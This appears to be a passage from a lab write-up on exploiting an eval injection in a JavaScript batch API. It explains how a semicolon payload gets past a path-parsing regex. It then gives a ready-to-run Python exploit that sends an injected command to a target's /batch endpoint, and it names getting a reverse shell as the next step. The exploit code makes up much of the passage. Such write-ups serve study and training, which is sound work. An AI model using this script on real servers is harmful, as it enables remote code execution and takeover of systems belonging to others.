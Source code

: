 ## Understanding The Regex
Before we start to exploit the vulnerability of the eval function, we need to first understand what kind of sanitization/formatting is being done to the JSON request through the regular expression.
The regex we're dealing with looks like so:

```javascript
var requestRegex = /(?:\/)(?:\$(\d)+\.)?([^\/\$]*)/g;
```

To understand this regex, we can visit [regex101](https://regex101.com/), which provides easy explanation for any regex.
In our test string field we'll simply insert a value from the example batch.js file from the POST request path, add a terminator, and add an example command

![](../../03.%20Images/t3-ss10.png)

Here:
1. The forward slashes are used as string separators
2. The strings between the slashes are then grouped using the dot character as a separator, but only if the $d pattern is matched
3. The payload ";hacked" is injected into the original statement, and manages to bypass the regex test. This is because the semi-colon(;) character terminates the statement in JavaScript.

This will let us append code to the statement, and let us execute code on the remote server.
To trigger the bug, we'll use the following script:

```python
import requests,sys

if len(sys.argv) != 3:
    print "(+) usage: %s <target> <cmd_injection>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = sys.argv[2]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'
request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % cmd

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```

We execute the script with our arguments, and see nothing special:

![](../../03.%20Images/t3-ss11.png)

However, checking the log file:

![](../../03.%20Images/t3-ss12.png)

We see that we are able to execute arbitrary java code on the server.
All that's left to do is use this bug to get a reverse shell.